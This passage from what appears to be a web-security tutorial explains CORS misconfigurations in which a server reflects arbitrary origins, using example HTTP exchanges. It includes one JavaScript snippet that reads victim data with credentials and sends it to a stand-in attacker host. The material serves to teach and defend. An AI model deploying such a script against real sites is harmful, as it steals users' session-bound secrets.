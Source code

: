 - [CORS and the Access-Control-Allow-Origin response header](https://portswigger.net/web-security/cors/access-control-allow-origin)

## Vulnerabilities arising from CORS configuration issues

Many modern websites use CORS to allow access from subdomains and trusted third parties. Their implementation of CORS may contain mistakes or be overly lenient to ensure that everything works, and this can result in exploitable vulnerabilities.

### Server-generated [ACAO](https://portswigger.net/web-security/cors/access-control-allow-origin) header from client-specified Origin header

Some applications need to provide access to a number of other domains. Maintaining a list of allowed domains requires ongoing effort, and any mistakes risk breaking functionality. So some applications take the easy route of effectively allowing access from any other domain.

One way to do this is by reading the Origin header from requests and including a response header stating that the requesting origin is allowed. For example, consider an application that receives the following request:

```
GET /sensitive-victim-data HTTP/1.1 Host: vulnerable-website.com Origin: https://malicious-website.com Cookie: sessionid=...
```

It then responds with:

```
HTTP/1.1 200 OK Access-Control-Allow-Origin: https://malicious-website.com Access-Control-Allow-Credentials: true ...
```

These headers state that access is allowed from the requesting domain (`malicious-website.com`) and that the cross-origin requests can include cookies (`Access-Control-Allow-Credentials: true`) and so will be processed in-session.

Because the application reflects arbitrary origins in the `Access-Control-Allow-Origin` header, this means that absolutely any domain can access resources from the vulnerable domain. If the response contains any sensitive information such as an API key or CSRF token, you could retrieve this by placing the following script on your website:

```
var req = new XMLHttpRequest(); req.onload = reqListener; req.open('get','https://vulnerable-website.com/sensitive-victim-data',true); req.withCredentials = true; req.send(); function reqListener() {   location='//malicious-website.com/log?key='+this.responseText; };
```

**LAB**

APPRENTICE[CORS vulnerability with basic origin reflection](https://portswigger.net/web-security/cors/lab-basic-origin-reflection-attack)

### Errors parsing Origin headers

Some applications that support access from multiple origins do so by using a whitelist of allowed origins. When a CORS request is received, the supplied origin is compared to the whitelist. If the origin appears on the whitelist then it is reflected in the `Access-Control-Allow-Origin` header so that access is granted. For example, the application receives a normal request like:

